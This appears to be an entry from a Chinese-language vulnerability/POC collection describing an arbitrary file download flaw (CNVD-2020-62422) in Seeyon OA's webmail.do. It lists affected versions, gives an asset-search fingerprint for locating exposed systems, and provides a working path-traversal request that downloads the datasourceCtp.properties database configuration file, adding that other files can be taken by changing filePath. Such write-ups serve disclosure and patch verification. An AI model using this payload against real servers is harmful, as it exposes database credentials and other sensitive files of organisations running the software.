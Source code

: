 # 致远OA webmail.do 任意文件下载 CNVD-2020-62422

## 漏洞描述

致远OA存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6-V5</a-checkbox></br>

<a-checkbox checked>致远OA A8-V5</a-checkbox></br>

<a-checkbox checked>致远OA G6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

验证POC

```php
/seeyon/webmail.do?method=doDownloadAtt&filename=test.txt&filePath=../conf/datasourceCtp.properties
```

在漏洞的OA 系统将会下载 `datasourceCtp.properties` 配置文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zhiyuan-11.png)



更改参数 filePath 可下载其他文件